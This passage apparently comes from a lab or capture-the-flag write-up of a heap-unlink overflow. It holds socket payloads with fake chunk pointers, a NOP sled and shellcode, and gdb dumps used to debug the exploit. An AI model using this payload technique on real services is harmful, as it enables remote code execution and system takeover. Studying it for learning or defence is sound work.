 ```lang-bash line-numbers 
s.send("FSRD" + "X"*(128-4-1) + "/")
s.send("FSRD" + "ROOT" + "/" + "\xfc\xff\xff\xff" + "\xff\xff\xff\xff" + "XXXX" + "AAAA" + "DDDD" + "\x90"*(128-len(shellcode)-4-4-1-4-4-4-4-4) + shellcode)
```

We hit the second call to "check_path". The chunk2 headers before the "memmove":

```lang-bash line-numbers 
(gdb) x/2x 0x804e090-8
0x804e088:	0x00000000	0x00000089
```

and after the "memmove"

```lang-bash line-numbers 
(gdb) x/2x 0x804e090-8
0x804e088:	0x896e6962	0x895350e3
```

Damn it!!! something went wrong. Lets check chunk2 memory:

```lang-bash line-numbers 
(gdb) x/32x 0x804e008+136
0x804e090:	0xcd0bb0e1	0x544f4f80	0xfffffc2f	0xffffffff
0x804e0a0:	0x585858ff	0x41414158	0x44444441	0x90909044
0x804e0b0:	0x90909090	0x90909090	0x90909090	0x90909090
0x804e0c0:	0xdb319090	0x4353e3f7	0x89026a53	0xcd66b0e1
0x804e0d0:	0x525e5b80	0x1102ff68	0x51106a5c	0x6ae18950
0x804e0e0:	0x80cd5866	0xb3044189	0xcd66b004	0x66b04380
0x804e0f0:	0x599380cd	0xcd583f6a	0xf8794980	0x732f2f68
0x804e100:	0x622f6868	0xe3896e69	0xe1895350	0x80cd0bb0
```

So the first 8 bytes also looks wrong. It seems like we have copy to the right position, but the wrong content and length.

The problem is that our shellcode contains "/"s so we wont be copying the right content. Lets put the shellcode before the last "/" and the fake fd and bk pointers:

```lang-bash line-numbers 
s.send("FSRD" + "X"*(128-4-1) + "/")
s.send("FSRD" + "ROOT" + "\x90"*(128-len(shellcode)-4-4-1-4-4-4-4) + shellcode + "/" + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff" + "\x10\xd4\x04\x08" + "DDDD")
```

Now lets check again if the "memmove" worked as expected:

```lang-bash line-numbers 
(gdb) x/2x 0x804e090-8
0x804e088:	0xfffffffc	0xffffffff
```

And our chunk2 memory space:

```lang-bash line-numbers 
(gdb) x/32x 0x804e090
0x804e090:	0x0804d410	0x44444444	0x90909090	0x90909090
0x804e0a0:	0x90909090	0x90909090	0x90909090	0x90909090
0x804e0b0:	0xf7db3190	0x534353e3	0xe189026a	0x80cd66b0
0x804e0c0:	0x68525e5b	0x5c1102ff	0x5051106a	0x666ae189
0x804e0d0:	0x8980cd58	0x04b30441	0x80cd66b0	0xcd66b043
0x804e0e0:	0x6a599380	0x80cd583f	0x68f87949	0x68732f2f
0x804e0f0:	0x69622f68	0x50e3896e	0xb0e18953	0x2f80cd0b
0x804e100:	0xfffffffc	0xfffffffc	0x0804d410	0x44444444
```
